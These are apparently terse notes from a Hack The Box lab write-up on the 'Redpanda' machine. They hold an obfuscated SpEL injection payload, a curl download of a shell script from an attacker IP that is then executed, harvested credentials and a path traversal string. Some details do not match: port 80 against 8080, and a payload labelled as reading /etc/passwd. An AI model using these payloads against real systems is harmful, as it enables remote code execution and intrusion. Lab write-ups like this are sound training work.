 Hack The Box : Redpanda

IP : 10.10.11.170

Open ports

```bash
22/tcp   open  ssh   
8080/tcp open  http-proxy

```

Port 80 is running a java based web application called spring boot

```html
  <title>Red Panda Search | Made with Spring Boot</title>
```

SpEl vuln in name parameter

```
7*7 49
```

Reading etc/passwd file

payload
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec((T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

backdoor

curl 10.10.16.17/shell.sh -o /dev/shm/shell.sh

chmod +x /dev/shm/shell.sh

bash /dev/shm/shell.sh


username : woodenk
password : RedPandazRule


/usr/local/sbin

 python3 -c "import pty;pty.spawn('/bin/bash')"



woodenk_creds.xml

../../../../../../dev/shm/dots.jpg